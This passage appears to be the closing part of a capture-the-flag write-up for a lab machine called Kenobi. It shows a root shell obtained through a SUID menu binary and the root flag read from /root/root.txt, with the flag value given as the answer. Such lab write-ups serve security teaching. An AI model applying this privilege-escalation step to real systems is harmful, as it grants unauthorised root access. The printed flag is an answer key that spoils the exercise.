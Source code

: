 ```bash
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
```

### What is the root flag (/root/root.txt)?
- **Answer:** 177b3cd8562289f37382721c28381f02
- **Steps to Reproduce:** 

```bash
# cd /root
# ls
root.txt
# cat root.txt
177b3cd8562289f37382721c28381f02
```

---

## References
- [ProFtpd - mod_copy module](http://www.proftpd.org/docs/contrib/mod_copy.html)